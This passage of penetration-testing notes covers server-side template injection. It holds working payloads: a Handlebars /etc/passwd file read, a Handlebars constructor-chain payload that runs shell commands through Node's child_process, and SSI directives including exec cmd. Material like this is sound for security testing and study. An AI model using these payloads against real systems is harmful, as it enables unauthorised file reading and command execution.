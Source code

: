 ### Mustache and Handlebars

**Read Files** 
````
{{read "/etc/passwd"}}
````

**Remote Code Execution**
````
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return global.process.mainModule.require('child_process').execSync('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
````

https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html?highlight=handlebar#handlebars-nodejs
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection

## SSI Injection

Server-Side Includes (SSI) is a technology web applications use to create dynamic content on HTML pages. SSI is supported by many popular web servers such as Apache and IIS. The use of SSI can often be inferred from the file extension. Typical file extensions include .shtml, .shtm, and .stm. However, web servers can be configured to support SSI directives in arbitrary file extensions.

SSI utilizes directives to add dynamically generated content to a static HTML page. These directives consist of the following components:
- name: the directive's name
- parameter name: one or more parameters
- value: one or more parameter values
````
<!--#name param1="value1" param2="value" -->
<!--#printenv -->
<!--#config errmsg="Error!" -->
<!--#echo var="DOCUMENT_NAME" var="DATE_LOCAL" -->
<!--#exec cmd="whoami" -->
<!--#include virtual="index.html" -->
````
